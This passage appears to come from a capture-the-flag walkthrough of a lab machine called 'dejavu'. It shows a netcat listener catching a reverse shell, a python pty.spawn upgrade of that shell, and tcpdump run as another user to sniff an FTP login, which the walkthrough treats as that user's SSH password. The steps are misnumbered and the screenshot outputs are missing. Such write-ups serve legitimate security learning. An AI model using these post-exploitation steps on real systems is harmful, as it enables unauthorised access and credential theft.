


5.3 tcpdump
1. On your Kali Machine open a “netcat” connection.
$ nc -nlvp 4444
2. On your Kali Machine you'll see there's a connection.
Output:

4. Get a PTY shell (Pseudo-terminal).
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ export TERM=xterm
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ export TERM=xterm
Output:

3. With the data you have, run “tcpdump” on the new Reverse Shell.
www-data@dejavu:/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/files$ sudo -u robert tcpdump -i lo port ftp
After some time you'll get a handshake.
Output:

The handshake is the password to connect user “robert” via SSH to the victime's machine.